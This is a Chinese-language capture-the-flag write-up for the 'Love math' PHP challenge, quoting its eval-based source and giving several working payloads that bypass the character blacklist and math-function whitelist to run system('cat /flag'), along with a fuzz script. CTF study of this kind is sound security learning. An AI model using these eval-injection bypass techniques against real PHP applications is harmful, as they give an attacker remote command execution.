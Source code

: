 

## Love math

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

* 动态函数
php中可以把函数名通过字符串的方式传递给一个变量，然后通过此变量动态调用函数
例如：`$function = "sayHello";$function();`

* php中函数名默认为字符串
例如本题白名单中的asinh和pi可以直接异或，这就增加了构造字符的选择

思路1 --
方法1
```
?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=cat%20/flag
```
base_convert(696468,10,36) => "exec"
dechex(1598506324)  => "_GET"
$pi(8768397090111664438,10,30) => "getallheaders" 

方法2
exec(getallheaders(){1}) //操作xx和yy，中间用逗号隔开，echo都能输出 echo xx,yy

burp抓包在Content-Length下一行，不加空行, 将1:cat /flag作为header传入了
Content-Length: 11
1: cat /flag

方法3: 强制传参
exp=cat /flag&abs=system&c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){abs}($$pi{exp})
```
base_convert(37907361743,10,36)  => hex2bin
dechex(1598506324)               => 5f474554  即 _GET 的 16进制
($$pi){abs}($$pi{exp})           => $GET['abs']('exp')
```
思路2 --

直接想办法catflag也是可以的

```
//exec('hex2bin(dechex(109270211257898))') => exec('cat f*')
($pi=base_convert)(22950,23,34)($pi(76478043844,9,34)(dechex(109270211257898)))
//system('cat'.dechex(16)^asinh^pi) => system('cat *')
base_convert(1751504350,10,36)(base_convert(15941,10,36).(dechex(16)^asinh^pi))
```

思路3 --
前面都是利用白名单的数学函数将数字转成字符串，其实也可以
这是fuzz脚本

```
<?php
$payload = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh',  'bindec', 'ceil', 'cos', 'cosh', 'decbin' , 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
for($k=1;$k<=sizeof($payload);$k++){
    for($i = 0;$i < 9; $i++){
        for($j = 0;$j <=9;$j++){
            $exp = $payload[$k] ^ $i.$j;
            echo($payload[$k]."^$i$j"."==>$exp");
            echo "<br />";
        }
    }
}

```

`http://833b3035-65c8-45f0-aef4-8214e5f05661.node3.buuoj.cn/?c=$pi=(is_nan^(6).(4)).(tan^(1).(5));$pi=$$pi;$pi{0}($pi{1})&0=system&1=cat%20/flag`

